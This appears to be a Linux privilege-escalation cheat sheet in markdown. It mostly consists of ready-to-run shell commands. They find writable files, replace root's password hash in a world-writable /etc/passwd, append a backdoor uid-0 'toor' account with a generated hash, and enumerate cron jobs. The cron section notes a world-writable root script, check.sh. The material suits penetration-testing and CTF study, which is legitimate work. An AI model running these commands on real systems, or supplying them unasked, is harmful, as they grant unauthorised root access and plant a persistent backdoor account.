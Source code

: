 ``` bash
find / -writable 2>/dev/null
```

### File /etc/passwd

File /etc/passwd can be modify by user permission.

``` bash
ls -l /etc/passwd
-rw-rw-rw- 1 root root <snip> /etc/passwd
```

``` bash
$ openssl passwd 
Password: 
Verifying - Password: 
QzKsrWCYxmRPY
```

`QzKsrWCYxmRPY` : non password hash.

``` bash
sed 's/root:x:/root:QzKsrWCYxmRPY:/' /etc/passwd > passwd
cat passwd > /etc/passwd
su
```

Generate password for new user

``` bash
openssl passwd -1 -salt hades leecybersec
```

``` bash
echo toor:$1$hades$KKCtexC.plAyjcJkX7War0:0:0:root:/root:/bin/bash >> /etc/passwd
```

[https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation)

## Scheduled Tasks

``` bash
ls -lah /etc/cron*
```

``` bash
cat /etc/crontab
```

``` bash
grep "CRON" /var/log/* 2>/dev/null
```

### Cronjob file insecure

Cronjob file check.sh overwrite, file check.sh running as root every 1 minute.

``` bash
ls -l check.sh
-rw-rw-rw- 1 root root <snip> check.sh
```
